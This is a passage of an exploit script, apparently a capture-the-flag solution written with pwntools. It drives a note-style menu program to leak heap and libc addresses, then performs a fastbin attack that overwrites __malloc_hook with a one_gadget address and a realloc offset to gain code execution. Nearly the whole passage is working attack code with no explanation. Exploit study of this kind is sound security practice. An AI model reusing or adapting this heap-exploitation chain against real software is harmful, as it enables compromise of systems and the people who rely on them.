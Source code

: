 ```
	p.send(context)

def show():
	p.recvuntil('choice:')
	p.sendline('1')

def edit(index, context):
	p.recvuntil('choice:')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(index))
	p.recvuntil('\n')
	p.send(context)

def delete(index):
	p.recvuntil('choice:')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(index))



#gdb.attach(p, 'b* 0x400CFD')
add(0x80, 'a'*8) #0
add(0x80, 'a'*8) #1
add(0x80, 'a'*8) #2
add(0x80, 'a'*8) #3
add(0x80, 'a'*8) #4
delete(3)
delete(1)
add(0x80, 'a'*8) #1
show()
p.recvuntil('1 : aaaaaaaa')
heap_base = u64(p.recvuntil('2', drop=True).ljust(8, '\x00')) - 0x90

for i in range(5):
	delete(i)

add(0x200,'a'*8)
add(0x200,'a'*8)
delete(0)
add(0x200,'a'*8)
show()
p.recvuntil('0 : aaaaaaaa')
libc_base = u64(p.recvuntil('1', drop=True).ljust(8, '\x00')) - 0x3C4B20 - 88
delete(0)
delete(1)

#fastbin attack
add(0x68,'a')
add(0x68,p64(heap_base+0x10)*2)
add(0x68,'c')

fake_addr = heap_base+0x80
delete((fake_addr-0x602068+0x10)/0x10)

malloc_hook = libc_base + e.symbols['__malloc_hook']
realloc = libc_base + 0x846C0 

edit(0,p64(malloc_hook-0x23))
add(0x68,'a')
add(0x68,'a'*11+p64(libc_base+0x4526a)+p64(realloc))

```